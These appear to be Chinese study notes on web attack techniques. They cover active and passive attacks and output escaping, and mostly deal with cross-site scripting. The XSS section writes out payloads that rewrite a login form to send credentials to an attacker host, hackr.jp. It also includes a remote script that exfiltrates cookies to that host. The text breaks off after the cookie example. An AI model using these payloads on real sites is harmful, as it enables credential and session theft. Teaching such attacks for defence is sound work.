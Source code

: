 ## web的攻击技术

互联网上的攻击大都将web站点作为目标，具体有哪些手段，会造成什么样的影响呢；

### 1 针对web的攻击技术

应用http协议的服务器和客户端，以及运行在服务器上的web应用作为攻击目标；

1. http不具备必要的安全功能

现在web网站都会使用会话管理加密处理等安全性方面的功能，而http协议本身不具备这些；
（安全壳协议（SSH）是一个加密的网络协议，用于在不安全的网络上安全地操作网络服务。其最显著的应用是远程登录和命令行执行）

2. 在客户端即可篡改请求
在http请求报文内加载攻击代码，就能发起对web应用的攻击；通过url查询字段或表单/http首部/Cookie等途径把攻击代码传入，若这时web应用存在安全漏洞，那内部信息就会遭到篡改，或者被攻击者拿到管理权限；

3 针对web应用的攻击模式

* 主动攻击：攻击者通过直接访问web应用，把攻击代码传入的模式；
* 被动攻击：利用圈套策略执行攻击代码的攻击模式

> 以服务器为目标的主动攻击

具有代表性的攻击是<b>SQL注入攻击和OS命令注入攻击</b>
```
        1执行攻击代码
攻击者---------------------- 服务器
                            \ 2 信息泄密；执行命令等
                             \
                              `-----> DB
```

> 以服务器为目标的被动攻击

具有代表性的是<b>跨站脚本攻击和跨站点请求伪造</b>；

常用的攻击模式如下：
1. 攻击者诱使用户触发已设置好的陷阱，而陷阱会启动发送已嵌入攻击代码的http请求；
2. 当用户不知不觉中招后，用户的的浏览器或者邮件客户端就会触发这个陷阱
3. 中招后的用户浏览器就会把含有攻击代码的http请求发送给作为攻击者目标的web应用，运行攻击代码
4. 执行完攻击代码，存在安全漏洞的web应用会成为攻击者的跳板，可能导致用户所持的Cookie等个人信息被窃取，登陆状态中的用户权限遭到恶意滥用等后果；
```
主要攻击用户的资源和权限
      
              4 执行攻击代码的后果是用户所持的cookie等
                    被盗取/用户权限遭恶意滥用
        -------------------------------------------------》 
 用户                                                        攻击代码服务器
  ^    《------------------------------------------------
   \               3 用户的浏览器运行攻击代码
    \
     \ 2 用户的浏览器触发事先已设好陷阱的http请求 
      \_______________________________________ 攻击者（在web页面或邮件内设置陷阱）
          1 陷阱诱导

```

利用被动攻击 可以利用用户的身份攻击企业内部网络

### 2 因输出值转义不完全引发的安全漏洞

实施web应用安全对策可大致分为以下两部分：

A 客户端验证

保留客户端验证只是为了尽早的辨识输入错误，起到提高ui体验的作用，

B web应用端（服务端）验证
 
  * 输入值验证：通常是指检查是否是符合系统业务逻辑的数值或检查字符编码等预防对策
  * 输出值转义：从数据库或文件系统/html/邮件等输出web应用处理的数据之际，针对输出做值转义处理是一项至关重要的安全策略，当输出值转义不完全时，会因触发攻击者传入的攻击代码，而给输出对象带来损害；
  
  
1. 跨站脚本攻击（Cross-Site Scripting Xss）

是指通过存在安全漏洞的web网站注册用户的浏览器内运行非法的html标签或者js代码进行的一种攻击；
影响如下：

* 利用虚假输入表单骗取用户个人信息
* 利用脚本窃取用户的cookie值，被害者在不知情的情况下，帮助攻击者发生恶意请求
* 显示伪造的文章或图片

> 跨站脚本攻击案例

a: 在动态生成html处发生，以编辑个人信息为例子：

```
正常情况下：
姓名：________
邮箱：________
简介：________

    确认修改

```
在确认后将编辑的内容正常展示，<b>异常情况下</b>但是当输入的姓名带有html标签或者利用js会造成更严重的后果
比如将姓名输入为：<s>显示的内容将会带有下划线</s>

这里虽然不会造成太严重的后果，但是利用js可以


b: XSS是攻击者利用预先设置的陷阱触发的被动攻击

当网站通过地址栏中的URI的查询字段指定ID，即相当于在表单内自动填写字符串的功能；而在这个地方，隐藏着可执行跨站脚本攻击的漏洞；

```
http://example.js/login?ID=yama

某登陆网站：
ID: yama
PW:_____

攻击者会据此创建下面这段嵌入恶意代码的url；隐藏植入事先准备好的欺诈邮件中或者web页面内；诱使用户去点击该url；

http://example.js/login?ID="><script>var+f=document.getElementById("login"); +f.action="http://hackr.jp/pwget";+f.method=>"get";</script><span+s="
浏览器打开该uri后，直观感觉没有发生任何变化；但是设置好的脚本已经开发运行了；当用户输入id和pw后就会直接发送到攻击者的网站（即hackr.jp），导致个人登陆信息被窃取；
两种方式请求是对应的html源代码如下：
```
```
<div class="logo">
  <img src="/img/logo.png" alt="某网站">
</div>
<form action="http://example.jp/login" method="post" id="login">
  <div class="input_id">
    ID  <input type="text" name="ID" value="yama">
  </div>
</form>

<!-- 被嵌入攻击代码后 -->
<div class="logo">
  <img src="/img/logo.png" alt="某网站">
</div>
<form action="http://example.jp/login" method="post" id="login">
  <div class="input_id">
    ID  <input type="text" name="ID" value=""><script>var f=document.getElementById("login"); f.action="http://hackr.jp/pwget"; f.method="get";</script><span s="" />
  </div>
</form>
```

> 对用户cookie的窃取攻击

除了上面的在表单中设下圈套之外，下面的恶意构造的脚本也同样能够以跨站脚本攻击方式，窃取用户的cookie信息

```
<script src="http://hackr.jp/xss.js"></script>

xss.js如下内容
var content = encodeURIComponent(document.cookie)
document.write("<img src=http://hackr.jp/?>");
document.write(content)
document.write(">")

```
在存在漏洞的网站运行后 cookie信息就会发送至攻击者的网站
```
http://example.js/login?ID="><script src=http://hackr.jp/xss.js></script>"
```



























  









